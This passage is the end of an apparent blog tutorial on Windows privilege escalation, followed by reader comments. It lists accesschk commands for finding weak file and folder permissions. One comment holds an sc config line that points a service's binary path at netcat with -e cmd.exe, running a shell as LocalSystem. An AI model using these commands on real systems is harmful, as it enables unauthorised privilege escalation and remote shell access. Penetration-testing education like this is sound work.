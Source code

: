 As we have been able to see accesschk is the tool of choice here. Before finishing off I'd like to give you a few final pointers on using accesschk.

# When executing any of the sysinternals tools for the first time the user will be presented with a GUI
pop-up to accept the EULA. This is obviously a big problem, however we can add an extra command line flag
to automatically accept the EULA.

accesschk.exe /accepteula ... ... ...

# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*


 
Final Thoughts

This guide is meant to be a "fundamentals" for Windows privilege escalation. If you want to truly master the subject you will need to put in a lot of work and research. As with all aspects of pentesting, enumeration is key, the more you know about the target the more avenues of attack you have the higher the rate of success.

Also keep in mind that you may sometimes end up elevating your privileges to Administrator. Escalating privileges from Administrator to SYSTEM is a non-issue, you can always reconfigure a service or create a scheduled task with SYSTEM level privileges.

Now go forth and pop SYSTEM!!
Comments (28)
+10

thanks · 239 weeks ago
WOW, this is great.

I love your blog KEEP it up.
Reply
+3

offsec · 234 weeks ago
Hi,

After configuring

sc config SSDPSRV binpath= "C:ncnc.exe -nv 127.0.0.1 9988 -e C:WINDOWSSystem32cmd.exe"

sc config SSDPSRV obj= ".LocalSystem" password= ""

I am unable to restart the service. I get following error.
